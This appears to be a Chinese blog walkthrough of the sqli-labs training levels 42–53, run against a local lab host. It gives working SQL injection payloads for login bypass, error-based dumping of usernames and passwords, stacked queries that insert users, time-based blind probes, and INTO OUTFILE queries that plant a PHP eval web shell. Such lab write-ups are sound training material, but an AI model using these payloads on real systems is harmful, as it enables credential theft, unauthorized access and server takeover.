 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:     sqli-labs42-53关  # 标题 
subtitle:      #副标题
date:       2020-07-04         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - sqli-labs
  
---
```


## ***Less-42 - Stacked Query error based ***

       $username = mysqli_real_escape_string($con1, $_POST["login_user"]);
       $password = $_POST["login_password"];

		$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";

可以看到用户名进行了转义，而密码处没有。

在密码处进行万能密码登录，用户名随便输，密码处`111' or 1 #`

发现登录成功，我们用户名上面有显示，

![UpQZrV.png](https://s1.ax1x.com/2020/07/05/UpQZrV.png)

![UpM4u6.png](https://s1.ax1x.com/2020/07/05/UpM4u6.png)

成功进入一个修改密码的页面。但是很遗憾不能进行注入了。

	$curr_pass= mysql_real_escape_string($_POST['current_password']);
	$pass= mysql_real_escape_string($_POST['password']);
	$re_pass= mysql_real_escape_string($_POST['re_password']);


在密码处输入`111'`，报错`

	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''111''' at line 1`

从报错中发先单引号闭合，那么既然有报错我们就可以用报错注入。

payload: `login_user=111&login_password=111' and updatexml(1,concat(0x5e,substr((select group_concat(username,0x7e,password) from users),1,31),0x5e),1) #&mysubmit=Login`

![UpKYS1.png](https://s1.ax1x.com/2020/07/05/UpKYS1.png)

还可以从密码处堆叠注入，创建一个用户登录，或者说修改admin的密码。

`login_user=111&login_password=111';insert into users values(200,'guest','guest'); #&mysubmit=Login`,成功创建用户。

![UpmjTH.png](https://s1.ax1x.com/2020/07/05/UpmjTH.png)


## ***Less-43***



密码处单引号报错`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''111111'')' at line 1`,得出闭合方式为单引号括号，其余步骤和上一关相同。

本关万能密码`111') or 1 #`	

## ***Less-44 - Stacked Query blind***

发现本关关闭了报错，也就是不能进行报错注入了。

密码处尝试望能密码。`111' or 1 #`,成功登录，这也验证了闭合方式就是单引号。

我们还可以进行堆叠注入。

密码处输入：`111';insert into users values(250,'250','250');#`;用250用户登录，登陆成功。

## ***Less-45***

报错关了。继续尝试万能密码。

`111' or 1 #`,并不能登入，可能闭合方式不是单引号，

继续尝试`111') or 1 #`登入。

进行堆叠注入，与前几关一样，只不过闭合方式改变了。

payload: `111');insert into users values(251,'251','251');#`


## ***Less-46 - ORDER BY-Error-Numeric***

参数sort以1，2，3进行尝试，可猜出大致sql为
`select * from users order by $id`

`http://192.168.2.222/sqli-labs-master/Less-46/?sort=1 desc`输入desc或者asc可降序升序排列，说明可能存在注入。

`http://192.168.2.222/sqli-labs-master/Less-46/?sort=(select 1)`成功以第一列进行排序。

`http://192.168.2.222/sqli-labs-master/Less-46/?sort=1'`报错，可以尝试报错注入。

`http://192.168.2.222/sqli-labs-master/Less-46/?sort=(select updatexml(1,concat(0x5e,database(),0x5e),1))`成功爆出数据库名。

`http://192.168.2.222/sqli-labs-master/Less-46/?sort=1 and sleep(5)`有延迟，说明可以时间注入。

payload: `http://192.168.2.222/sqli-labs-master/Less-46/?sort=(if(length(database())>1,1,sleep(5)))`

还可以将一句话写入。

指定各列之间的分隔符为‘，’而行之间的分隔符为‘\n<?php eval($_POST[a]);?>’。

`select * from users into outfile "/var/ma.php" fields terminated by ',' lines terminated by '\n<?php eval($_POST[a]);?>';`

当然把一句话换成十六进制也可以写入：`select * from users into outfile "/var/ma.php" fields terminated by ',' lines terminated by 0x3c3f706870206576616c28245f504f53545b615d293b3f3e;`

![UpsRTe.png](https://s1.ax1x.com/2020/07/05/UpsRTe.png)

![UpsneS.png](https://s1.ax1x.com/2020/07/05/UpsneS.png)


## ***Less-47 - ORDER BY Clause-Error-Single quote***

`http://192.168.2.222/sqli-labs-master/Less-47/?sort=1'`根据错误信息判断，闭合方式为单引号。

payload:

`http://192.168.2.222/sqli-labs-master/Less-47/?sort=1' and updatexml(1,concat(0x5e,database(),0x5e),1) --+`

`http://192.168.2.222/sqli-labs-master/Less-47/?sort=1' and if(length(database())>1,1,sleep(5)) --+`

`http://192.168.2.222/sqli-labs-master/Less-47/?sort=1' into outfile "/var/ma.php" fields terminated by ',' lines terminated by 0x3c3f706870206576616c28245f504f53545b615d293b3f3e --+`

## ***Less-48 - ORDER BY Clause Blind based***

这关关闭了报错，所以不能进行报错注入。可以使用46关的其他方法。

## ***Less49 - ORDER BY Clause Blind based***

同样关闭了报错。

`http://192.168.2.222/sqli-labs-master/Less-49/?sort=1' --+`回显正常。闭合方式单引号。

不能报错注入，其他跟47关操作一样的。

## ***Less50 - ORDER BY Clause Blind based***

这关用了函数`mysqli_multi_query()`

`mysql_query()` 函数执行一条 MySQL 查询。

`mysqli_multi_query()` 函数执行一个或多个针对数据库的查询。多个查询用分号进行分隔。

很清楚的告诉我们可以进行堆叠注入。

`http://192.168.2.222/sqli-labs-master/Less-50/?sort=1;insert into users values(252,'252','252');`

![UpRgmt.png](https://s1.ax1x.com/2020/07/05/UpRgmt.png)

当然前几关的其他操作也是可以的。

## ***Less-51 - ORDER BY Clause Blind based***

`http://192.168.2.222/sqli-labs-master/Less-51/?sort=1'`报错信息得到单引号闭合。

其余操作和前面都是一样的。

## ***Less-52 - ORDER BY Clause Blind based***

这关输入单引号和双引号都没回显，关闭了报错，也得到时数字型注入。

这关不能进行报错注入，但可以进行其他注入。跟前面一样。

## ***Less-53 - ORDER BY Clause Blind based***

单引号页面回显异常，双引号正常。

`http://192.168.2.222/sqli-labs-master/Less-53/?sort=1' --+`页面正常，说明闭合方式为单引号。

也不能进行报错注入。可以用前几关方法进行注入。
